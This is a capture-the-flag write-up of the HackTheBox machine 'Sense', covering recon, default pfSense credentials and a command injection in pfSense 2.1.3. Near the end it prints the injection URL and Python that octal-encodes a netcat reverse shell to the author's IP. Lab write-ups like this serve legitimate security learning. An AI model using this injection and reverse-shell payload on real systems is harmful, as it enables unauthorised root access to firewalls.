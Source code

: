 # Sense [HTB](https://app.hackthebox.com/machines/111)
![sense-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/sense-01.png)

## Recon 

After adding the target to my `/etc/hosts` file, I fire off an `nmap` scan:

```bash
nmap -sC -sV -A -p- sense.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/nmap-res-02.png)

We have the following:

+ A lighthttpd V1.4.35 HTTP server on ports 80 & 443. 

The target runs a single HTTP service with a lighthttpd server. Port 80 immediately redirects us to an SSL connection, let's have a look. 


## HTTP Port 443

I open up my browser and type `https://sense.htb`, my browser warns me about the validity of the certificate of this site, I accept the risks and ask to load the page anyway:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/site-03.png)

The site references [DNS rebinding attacks](https://en.wikipedia.org/wiki/DNS_rebinding). These attacks usually involve a victim user clicking on a link, or a hidden HTML tag that leads to a domain controlled by the attacker's DNS server. 

The DNS rebinding attack leverages  the control the attacker has over the DNS to bypass the [Same-Origin Policy](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjh3dqTu8qBAxVsh_0HHTVpDkAQFnoECBUQAw&url=https%3A%2F%2Fweb.dev%2Fsame-origin-policy%2F&usg=AOvVaw3oH90bDU0AARo5NNkbh5nZ&opi=89978449) imposed by modern web browsers. This is possible because the browser determines the origin of the request based on the `Hostname` parameter and general URI scheme, but because hostnames can point to any arbitrary IP, this can be leveraged to bypass the `Same-Origin Policy` to make malicious requests to other resources on the victim user's behalf.

Some examples of attack vectors can be internal network components in an enterprise enviorement, internal resources on the server itself, other sites altogether, like banking sites, etc. Here is the general scheme of the attack:

![dns-rebind-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/dns-rebind-04.png)

Palo Alto has a nice [artical](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwiVt9rOvsqBAxUkhv0HHUP2AQ4QFnoECBAQAQ&url=https%3A%2F%2Funit42.paloaltonetworks.com%2Fdns-rebinding%2F&usg=AOvVaw1ZW27d0rhTxtJWKsFNLpUl&opi=89978449) about DNS rebinding attacks if you want to read more about it.


To avoid potential DNS rebinding attacks, the server replied with the above error. Rejecting requests with hostnames would eliminate any potential for DNS rebinding attacks, though it seems rather extreme. 

I dont see much potential in pulling a DNS rebinding attack againts this target. Let's open the web server through an IP address instead:

![login-req-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/login-05.png)

This is an admin login portal for the [pfSense](https://www.pfsense.org/) open source firewall. At first I tried default credentials, when that failed I tried to brute force the login page. I wrote a simple script in Python to bypass the anti-csrf and session cookies which did work, but I've noticed that I get blocked after about 15 failed attempts. 

So instead, I decided to run a directory and file scan using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -u https://10.129.103.157/FUZZ -e .php,.cgi,.js,.html,.txt,.json,.xml
```

This yields quite a lot of results, but the most interesting one to me is this:

![users-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/users-.png)

If we open this file we can see the following:

![file-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/file-07.png)

This gives us a username. The password is set to be "company default", if we search online for default pfSense credenitlas we will find that the default password for most if not all appliances is `pfsesne`. 

After a few failed login attempts I found that the username is misspelled, and the credentials that do work are `rohit : pfsense`. This gets us inside the pfsense admin panel:

![admin-panel-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/admin-panel-08.png)

We can see that the version is 2.1.3 for a 64-bit FreeBSD machine. Let's search for exploits with:

```bash
searchsploit pfsense 2.1.3
```

![searchsploit-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/searchsploit-09.png)

Command Injection sounds good. After a bit of searching online I found that there is also a metasploit version available, so I decided to review the source code to try and pull this off manually:

![source-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/source-10.png)

Two things are going on here. First the actual payload is encoded to octal values. Next, the actual exploitation is executed via a Get request to the following URL:

```bash
/status_rrd_graph_img.php?database=-throughput.rrd&graph=file|printf%20%27<PAYLOAD>%27|sh|echo
```

We need to request this page after we have logged in to the pfsense admin panel and we have an active session, which we do have. So all we need is a reverse shell payload for a BSD platform, encode it to octal value, and send the GET request. 

The payload I got [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).

Next, we need to encode it, we can do this with the following python code:

```python
command = """
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.69 443 >/tmp/f
"""

payload = ''
for char in command:
    payload += ('\\' + oct(ord(char)).lstrip('0o'))

print(payload)
``` 

Finally, we need to URL encode the `|` characters found in the URL to `%7c`. All in all my final request to the server looks like this:

![req-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/req-11.png)

This gets me a shell as root:

![root-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/root-12.png)

